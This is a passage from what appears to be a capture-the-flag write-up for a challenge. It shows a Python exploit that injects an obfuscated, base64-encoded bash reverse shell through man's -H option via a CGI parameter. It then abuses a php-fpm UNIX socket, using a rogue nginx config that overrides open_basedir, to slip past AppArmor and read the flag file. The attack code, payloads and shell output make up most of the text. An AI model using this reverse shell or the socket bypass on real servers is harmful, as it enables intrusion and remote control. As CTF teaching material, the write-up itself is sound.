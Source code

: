 UTF-8 handling in PHP is [weird](https://gist.github.com/doc-smith/83f686e331fe172bf0f414adf26f483a).
Combined with the `-H` option of `man`, this gets us a reverse shell for free:
```python
import base64
import requests

REV_SHELL = 'bash -i >& /dev/tcp/`getent hosts libz.so | cut -d" " -f1`/31337 0>&1'
SAFE_REV_SHELL = f'echo {base64.b64encode(REV_SHELL.encode()).decode()} | base64 -d | bash'.replace(' ', '${IFS}')
CGI_READY_REV_SHELL = b'\xca-H' + SAFE_REV_SHELL.encode() + b'; id'

MAAS_HOST = '127.0.0.1'
URL = f'http://{MAAS_HOST}:8820/'

requests.get(URL, params={
	'page': CGI_READY_REV_SHELL,
})
```

At this point, if we knew the name of the flag file, we could just `cat` it. Unfortunately, we don't:
  1. We know the flag is stored in `/`, but its basename is 24 random characters, which is unguessable.
  1. We can't get the basename from a directory listing either, since `/** mrixwlk` AppArmor policy, which `/usr/bin/man` is confined to, basically allows us to list files in any directory *except* the root one.

php-fpm, though, is not confined to any AppArmor policy. Even better, our reverse shell is running as `www-data` and we can talk to PHP via a UNIX socket (`/run/php/php7.3-fpm.sock`).

Let's trick PHP into revealing the contents of `/`! PHP (php-fpm) speaks [FastCGI](http://www.mit.edu/~yandros/doc/specs/fcgi-spec.html), which seems moderately annoying to implement.
In order to avoid that, we spin up another instance of `nginx` with a custom config pointed at `/tmp/evil`.

```
www-data@2e75d56e6d85:/tmp/evil$ cat nginx.conf
pid /tmp/evil/evil.pid;
events {}

error_log /tmp/evil/err.evil;

http {
    access_log /tmp/evil/acc.evil;
    server {
            listen 127.0.0.1:31337 default_server;
            root /tmp/evil;
            server_name _;
            location ~ \.php$ {
                    include /etc/nginx/fastcgi.conf;
                    fastcgi_param PHP_VALUE open_basedir=/;
                    fastcgi_pass unix:/run/php/php7.3-fpm.sock;
            }
    }
}
```

The `fastcgi_param PHP_VALUE open_basedir=/` bypass is crucial for this to work.
If we omit it, php-fpm refuses to run scripts from `/tmp/evil` because its `open_basedir=` is set to `/var/www/html` in `www.conf`.

When we run `nginx` with this config, it complains that the error log is missing (I didn't find a way to make this warning go away), but runs anyway:
```
www-data@2e75d56e6d85:/tmp/evil$ /usr/sbin/nginx -c /tmp/evil/nginx.conf
nginx: [alert] could not open error log file: open() "/var/log/nginx/error.log" failed (6: No such device or address)
www-data@2e75d56e6d85:/tmp/evil$ cat evil.pid
1045
```

Now all we need is a script that is going to be run by `php-fpm`:
```
www-data@2e75d56e6d85:/tmp/evil$ cat evil.php
<?php foreach (glob("/flag*") as $fn) echo "$fn\n"; ?>
```

And another one to orchestrate everything and finally get the flag:
```
www-data@2e75d56e6d85:/tmp/evil$ cat fetch_evil.php
<?php echo(file_get_contents("http://127.0.0.1:31337/evil.php")); ?>
www-data@2e75d56e6d85:/tmp/evil$ php -f fetch_evil.php
/flag_kLExDVGQxbiIfwStYMFhT4xF.txt
www-data@2e75d56e6d85:/tmp/evil$ cat /flag_kLExDVGQxbiIfwStYMFhT4xF.txt
hxp{maybe_this_will_finally_get_me_that_sweet_VC_money$$$}
```